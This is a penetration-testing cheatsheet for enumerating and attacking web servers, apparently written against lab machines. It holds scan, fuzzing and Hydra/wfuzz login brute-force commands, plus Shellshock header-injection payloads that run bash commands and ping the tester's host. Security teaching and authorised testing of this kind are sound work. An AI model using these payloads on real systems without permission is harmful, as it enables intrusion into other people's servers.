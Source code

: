 # Network Enum: HTTP Servers
## Scans

**Nmap:**
```default
nmap -vv --reason -Pn -sV -p 80,443 "--script=banner,(http* or ssl*) and not (brute or broadcast or dos or external or http-slowloris* or fuzzer)" 10.0.0.42
```

**Nikto:**
```default
nikto -ask=no -h http://10.0.0.42:80
nikto -ask=no -h https://10.0.0.42:443
```

**Whatweb:**
```default
whatweb --color=never --no-errors -a 3 -v http://10.0.0.42:80
whatweb --color=never --no-errors -a 3 -v https://10.0.0.42:443
```

## Manual Enum

1. Check **robots.txt** for "hidden" files and dirs
2. Check **SSL/TLS certificates** for subdomains, company names, email addresses, usernames
3. Check **HTTP Response headers** for server name, version and scripting engines (PHP, ASP, etc.)
4. Check **Error pages** (404, 500, 401) for server name, version and scripting engines (PHP, ASP, etc.)

**Google the server name and version for vulnerabilites. Do the same for found scripting engines (PHP version, etc.)**

## Dir Fuzzing
```bash
# 404 based
wfuzz -Z -c -w <wordlist_no_extensions> -w <wordlist_extensions> --hc 404 http://10.10.10.13/FUZZFUZ2Z

# response size based (number words)
wfuzz -Z -c -w <wordlist_no_extensions> -w <wordlist_extensions> --hw 42 http://10.10.10.13/FUZZFUZ2Z
```

See the wordlist cheatsheet for wordlists.

## Subdomain Fuzzing

If you know the hostname, then you can look for subdomains that serve different content.

```default
wfuzz -c -Z -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.host.com" --hc 200 --hw 356 -t 100 10.10.10.101
```

## Login Forms

Like always google for exploits if you know the name of the webapp. Knowing the exact version helps as well, check sourcecode and HTTP response.

1. Try `admin:admin`
2. Try `admin:password`
3. Try `admin:<application_name>`
4. Check for SQL Injections
5. Google for default credentials (with name of the webapp) 
6. Check for "username is wrong" type info leaks (also check "forgot password?" for this)
7. Search for possible usernames on the wider site ("About Us", ssl cert, github, social media, etc.)
8. Try to create a low privilege user. Enumerate username-format, password requirements, etc. Also even low priv users sometimes can see sensitive data.
9. Check password reset rules

If you managed to create a low privilege user, make sure to check newly accessible pages and params for vulns.

### Login Bruteforcing

This is inherently dangerous because it might (1.) blacklist your IP address after too many failed attempts and (2.) it might DoS the target server. So this should be seen as a **last resort**.

If you do not know some confirmed usernames, then this might take forever. If you really have no clue, then it is advised that you limit the tested usernames to a small set of very common names like "admin", "Administrator", "john", etc. 

It also helps if you know the required username format. For instance if usernames are all email addresses, then you should obviously only test email addresses. Preferably email addresses at the same domain as the website.

#### With Hydra:

```bash
# HTTP Post Form
hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form “/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed”

# HTTP Basic Auth
hydra -L usernames.txt -P passwords.txt sizzle.htb.local http-get /certsrv/
```

#### With WFuzz:

See the dedicated WFuzz cheatsheet for more details.

Make sure to set threads to 1 like in the command here or you won't see which password actually worked.
```bash
-t 1 # number of threads
-d 'username=admin&password=FUZZ' # post data
-H # header
-Z # ignore errors
-c # color output
-w # wordlist (supply these in order of the placeholders)
--hc 400,404 # hide response by response code
--hh 1337 # hide by character count
--hw 42 # hide by word count
```
```bash
# x-www-form-urlencoded
wfuzz -Z -c -w passwords.txt -d 'username=admin&password=FUZZ' --hw 221 -H "Cookie: PHPSESSID=in8btt8pahv74vebe6ctsuj4u3" -H "Content-Type: application/x-www-form-urlencoded" -p localhost:8080 http://admin.cronos.htb/

# JSON
wfuzz -Z -c -w passwords.txt -d '{username:admin,password:FUZZ}' --hw 221 -H "Cookie: PHPSESSID=in8btt8pahv74vebe6ctsuj4u3" -H "Content-Type: application/json" -p localhost:8080 http://admin.cronos.htb/
```

You can see if it works as intended by setting the proxy to burp:
```bash
-p localhost:8080
```

## Common Vulns

### LFI / RFI

See the dedicated LFI / RFI cheatsheet.

### Wordpress, Drupal, etc.

See the dedicated Wordpress cheatsheet.

All of these CMS' tend to have a ton of vulns, especially in plugins. There are scanners for all of the big ones.

### IIS

A boatload. Check the link (also google for more):

https://book.hacktricks.xyz/pentesting/pentesting-web/iis-internet-information-services


### Shellshock

If you found a `/cgi-bin/` directory or if you know shell script files are getting interpreted and the output served via HTTP, then you should look for shellshock. 

Nmap has a detection script (covered by the command above), but it is notoriously unreliable and it requires a complete path to a target file, so it doesn't work automatically. A manual test is usually necessary.

Fuzz for script files:
```default
wfuzz -Z -c -w <small_wordlist_without_extensions> -w <common_script_extensions> --hc 404 http://10.0.0.1:10443/cgi-bin/FUZZFUZ2Z
```

Wordlist for common script extensions:
```default
.sh
.js
.py
.cs
.bat
.cfm
.cgi
.jsp
.pl
.rb
.php
.asp
.aspx
.bat
```

I am not 100% sure which interpreted script files can actually be used for shellshock, so I usually just use the list above (which I stole from somewhere idk) and hope for the best.

If you found an interpreted script file, then the basic test looks like this:

/cgi-bin/user.sh

```default
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /bin/bash -c "ls /usr/bin"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

Shellshock gets triggered by: `() { :;}; echo; /bin/bash -c "ls /usr/bin"`

The reason why we add that one echo at the start is because the first output tends to get eaten and not printed.

Also test the other headers, not just User-Agent.

```default
GET /cgi-bin/user.sh HTTP/1.1
Host: () { :;}; echo; /bin/bash -c "ls /usr/bin"
User-Agent: () { :;}; echo; /bin/bash -c "ls /usr/bin"
Referer: () { :;}; echo; /bin/bash -c "ls /usr/bin"
Connection: close
Accept: */*

```

If there is no output printed, try to ping your own machine: 
```default
() { :;}; echo; /bin/bash -c "/bin/ping -c 4 10.0.0.222"
() { :;}; echo; /bin/ping -c 4 10.0.0.222
```

Make sure to add the `-c <num>` flag to the ping command or you will get spammed by ICMP endlessly.

Confirm the pings with Wireshark.
